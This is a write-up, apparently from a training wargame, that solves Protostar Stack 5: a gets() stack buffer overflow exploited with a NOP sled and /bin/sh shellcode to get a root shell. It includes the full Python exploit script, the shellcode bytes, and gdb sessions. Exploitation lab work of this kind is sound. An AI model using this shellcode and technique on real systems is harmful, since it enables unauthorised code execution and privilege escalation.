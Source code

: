 # PROTOSTAR : STACK 5
[Protostar:Stack5](https://exploit.education/protostar/stack-five/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

The program takes command line input and there is a **buffer** variable which we can overflow since it takes input in vulnerable **gets()** function. But after overflowing the **buffer** where would we go? unlike the previous challenge there is **no win() function** so we need to return to a **stack address** and place our **shellcode** to get **ROOT SHELL**.

Below is the disassembly of the **main()** function
```
user@protostar:/opt/protostar/bin$ gdb -q stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave  
0x080483da <main+22>:   ret    
End of assembler dump.
(gdb) 
```

Now lets find the padding required to overwrite the **instrution pointer** and modify the return address of the program.
<br>
**Padding = 76** to overwrite **eip** register.
<br>
If you observe the **esp** register, it denotes the stack address to which the **eip** returns to. Now this address is random so we can take the help of **NOP SLED** and check whether we can run **assembler code**.
```
(gdb) b *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) x/2x $ebp
0x41414141:     Cannot access memory at address 0x41414141
(gdb) x/i $eip
0x80483da <main+22>:    ret    
(gdb) si
Cannot access memory at address 0x41414145
(gdb) i r
eax            0xbffff770       -1073744016
ecx            0xbffff770       -1073744016
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7c0       0xbffff7c0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xb7eadc00       0xb7eadc00 <__libc_start_main+112>
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) 
```
#### **PYTHON SCRIPT**
```py                                   
import struct
padding = "A"*76

ret = struct.pack("I",0xbffff7c0)

nop = "\x90"*100

trap = "\xCC"*4

print(padding + ret + nop + trap)

```

The **\xCC** instruction causes **SIGTRAP** which interupts the execution of the program. It is usually generated when the CPU hits a **breakpoint**. Below is the program output based on the python script.
<br>
Now that we know assembler code is running lets replace with a **shellcode**.
```
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff825 in ?? ()
(gdb) 
```

This is the shellcode for linux /bin/sh shell 22 bytes. **struct pack** is to convert the address to bytes.

```py
import struct
padding = "A"*76

ret = struct.pack("I",0xbffff7c0)

nop = "\x90"*100

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print(padding + ret + nop + shellcode)
```

Just piping the program output to ./stack5 won't work because the shell needs an input so **cat** command is used.
We got the root shell.
```
user@protostar:/tmp$ (python exploit.py; cat) | /opt/protostar/bin/stack5
whoami
root
```

